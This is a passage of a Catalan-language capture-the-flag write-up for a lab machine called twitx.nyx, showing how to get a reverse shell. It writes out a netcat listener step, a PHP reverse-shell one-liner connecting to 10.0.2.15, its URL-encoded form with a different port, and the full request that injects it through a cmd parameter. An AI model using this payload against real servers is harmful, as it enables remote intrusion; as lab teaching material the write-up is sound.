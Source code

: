 ![img_p8_1](../../../assets/images/twitx/img_p8_1.png)

Ara és moment de provar de fer una reverse shell amb el que hem aconseguit.

Comencem configurant un listener netcat al port desitjat.

![img_p8_2](../../../assets/images/twitx/img_p8_2.png)

Com que sabem que el servidor té PHP instal·lat, utilitz

em la següent reverse shell:

`php -r '$sock=fsockopen("10.0.2.15",4443);exec("/bin/bash <&3 >&3 2>&3");'`

Però primer, la codifiquem en URL:

`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

Ara només necessitem carregar la següent URL:

`http://twitx.nyx/private.php?folder=upload&file=17777047896641350dc29929.54816126.png&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.2.15%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

I obtenim accés a la shell:
